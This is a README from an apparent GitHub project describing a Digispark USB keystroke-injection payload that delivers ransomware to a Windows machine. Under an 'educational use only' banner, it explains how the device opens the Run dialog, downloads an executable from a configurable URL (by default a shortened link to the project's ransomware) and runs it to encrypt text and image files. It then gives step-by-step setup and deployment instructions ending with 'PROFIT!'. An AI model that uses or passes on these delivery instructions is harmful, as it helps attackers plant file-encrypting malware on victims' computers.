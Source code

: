 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Digispark - Ransomware
For more details, see our [documentations](/documentation/conops_ransomware.md).

Opens up Run in Windows.   
Using keystroke injections:   
- Downloads the ransomware executable, from user defined location.   
- Executes it, and the executable encrypts .txt, .jpg, .jpeg, .png files in the directory, it is downloaded to.

Check out more detailed usage of the [Ransomware in our project.](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/ransomware)

## How to use:

*Designed, using Finnish keyboard in victim machine.*     
- Check [DigiKeyboardFi](https://github.com/therealhalonen/DigiKeyboardFi) for support it.    
- Download the .ino, or copy the code.    
- Open the file or paste the content to/in Arduino IDE.
- Define:
	-  `DownloadFile('URL_WHERE_TO_DOWNLOAD'`    
	**NOTE: As is (`https://tinyurl.com/5e8yp8mf`), it downloads it from [here](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/ransomware/Python%20app)**   
	
	- Path, where to download and what to execute (both must be the same):
		- `$env:UserProfile/PATH_TO_THE/SOMETHING.exe\\\`
	- Working Dir:
		- `$env:UserProfile//PATH_TO_THE\\\`
- Upload to Digispark
- Make a directory named `TestDirz338` in the User-directory of the target machine. The directory name IS case sensitive and the directory needs to be in the correct directory for the ransomware to work.
- Plug the Digispark in to the target machine
- **PROFIT!**

---
**Note:**  
Folder:
- [old](https://github.com/therealhalonen/PhishSticks/tree/master/digispark/digispark_ransomware/old)
    - Older draft to initially getting the ransomware with Digispark to work
